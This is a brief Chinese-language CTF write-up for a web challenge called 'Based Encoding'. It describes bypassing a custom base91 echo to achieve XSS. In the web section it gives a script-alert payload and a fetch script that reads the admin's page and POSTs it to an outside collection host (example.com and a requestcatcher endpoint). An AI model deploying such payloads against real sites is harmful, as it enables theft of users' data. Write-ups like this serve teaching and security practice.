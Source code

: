 # web
### Based Encoding
#xss 
用户的输入会进行一个自己写的base91算法编码然后回显
思路,`decode("<script>alert(1)</script>")`
但是发现存在不可见字符传参传不进去,但是代码里允许16进制传参,

```js
print(decode('<script>alert(1)</script>').hex())
//成功弹窗
```

但是需要读取admin的编码历史,需要用到一些base91码表里没有的值,比如`.`
```js
<script>
fetch("/")
	.then(x=>x.text())
		.then(x=>fetch("http://example.com",{
			method:"post",
			body:x		
		}))
</script>
```

```html
<script>
fetch("/")
    .then(x => x.text())
    .then(x => fetch("https://nice.requestcatcher.com/test", {
        method: "post",
        body: x
    }))
</script>aaa <!--防止base91解码后丢失数据>
```

接收到admin的页面截图
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231018202947.png)
直接访问即可得到flag

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-10-18   15:52